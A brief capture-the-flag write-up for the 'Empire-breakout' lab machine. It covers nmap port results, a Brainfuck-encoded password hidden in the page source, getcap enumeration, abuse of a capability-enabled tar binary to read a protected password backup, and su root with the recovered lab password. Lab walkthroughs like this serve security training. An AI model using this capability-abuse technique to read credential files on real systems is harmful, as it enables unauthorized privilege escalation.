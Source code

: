 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Empire-breakout
# 3/2/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```
PORT      STATE SERVICE
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp




page source of default apache server
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

.2uqPEfj3D<P'a-3

getcap -r / 2>/dev/null
cd /var/backups
cd ~
./tar -cf password.tar /var/backups/.old_pass.bak
 tar -xf password.tar
 cat .old_pass.bak 
 Ts&4&YurgtRX(=~h

su root
```
